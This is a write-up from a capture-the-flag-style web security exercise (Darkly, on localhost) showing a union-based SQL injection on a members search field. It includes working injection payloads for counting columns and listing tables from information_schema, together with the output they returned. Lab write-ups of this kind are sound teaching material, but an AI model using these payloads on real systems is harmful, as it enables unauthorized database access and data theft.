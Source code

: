 # Breach Name: SQL Injection (Union-based)
## Description of the Breach

A SQL Injection (Union-based) vulnerability was identified on the members page of the Darkly website. This vulnerability allows an attacker to manipulate SQL queries by injecting malicious input into the Member ID search field. Exploiting this flaw enables unauthorized access to sensitive database information, including table names, column names, and confidential data such as flags or user credentials.

## Steps to Reproduce

1. Navigate to the Members Page:
	- Open your web browser and visit the members page at http://localhost:8080/index.php?page=member.

2. Locate the Member ID Search Input:
	- On the members page, find the input bar where you can search members by their ID.

3. Perform a Basic Search:
	- Enter 1 in the input field and observe the returned data:
	```yaml
	ID: 1 
	First name: one
	Surname : me
	```

4. Identify the Number of Columns:
	- To determine the number of columns in the original SQL query, perform a trial by incrementing the number of NULL values in a UNION SELECT statement until the query executes without errors.
	- Example:
	```sql
	1 UNION SELECT NULL, NULL
	```
	- Adjust the number of NULL values based on the error messages until the number of columns matches.

5. Extract Table Names:
	- Once the correct number of columns is identified (e.g., two columns), use a UNION SELECT statement to retrieve table names from the database's information schema.
	- Payload:
	```sql
	1 UNION SELECT table_name, NULL FROM information_schema.tables
	```
	- Input Example:
	```sql
	1 UNION SELECT table_name, NULL FROM information_schema.tables
	```
	- Observed Output:
	```sql
	ID: 1 UNION SELECT table_name, NULL FROM information_schema.tables 
	First name: users
	Surname : NULL
	```
